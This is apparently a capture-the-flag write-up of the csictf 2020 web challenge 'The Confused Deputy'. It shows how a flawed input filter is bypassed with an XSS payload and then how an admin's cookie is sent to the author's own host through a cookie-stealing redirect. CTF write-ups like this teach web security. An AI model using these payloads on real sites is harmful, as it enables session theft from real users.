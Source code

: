 ```yaml
---
title: The Confused Deputy
date: 2020-12-29
excerpt: "'The Confused Deputy' was a challenge in the Web category of csictf 2020"
classes: wide
categories: csictf2020
tags:
  - csictf2020
  - XSS
  - filter-evasion
  - cookie-stealing
---
```


![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/0.png)


/admin



![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/1.png)


Let's check out the source of the color visualizer.



![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/2.png)


In the source we can see how it's setting the background color, and that it's sanitizing the input to protect against XSS. Or is it?  

I noticed in my tests that only the initial <> are being filtered out. Anything after that is fine.  

So by escaping the style set variable, we can inject our XSS payload.  

`<></style><img src=x onerror=alert(document.cookie)>`



![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/3.png)


So we have XSS, but we want to send the cookie back to us rather than alert it.  

Here is the script that I hosted on my VPS:  

![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/4.png)
And here is the new payload:



`<></style><img src=x onerror=document.location='http://REDACTED/cookie.php?c='+document.cookie>;`



So now we can pass this information through the Admin page



URL to visit: [http://chall.csivit.com:30256/view](http://chall.csivit.com:30256/view)  

Color to see: payload



![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/5.png)
